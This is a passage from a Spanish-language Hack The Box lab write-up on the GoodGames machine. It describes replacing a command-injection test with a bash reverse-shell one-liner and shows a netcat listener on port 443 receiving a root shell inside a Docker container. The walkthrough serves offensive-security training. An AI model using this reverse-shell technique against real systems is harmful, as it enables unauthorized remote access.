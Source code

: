 <img src="/assets/HTB/GoodGames/id.png">

Sustituimos el comando id por el onliner de bash para entablar una reverse shell y nos ponemos en escucha por el puerto 443 en nuestro equipo

<img src="/assets/HTB/GoodGames/revshell.png">

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.73] from (UNKNOWN) [10.10.11.130] 50558
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@3a453ab39d3d:/backend# whoami
whoami
root
root@3a453ab39d3d:/backend# hostname -I
hostname -I
172.19.0.2 
```

Hemos ganado acceso a la máquina pero observando la IP de la misma nos percatamos de que estamos dentro de un contenedor Docker
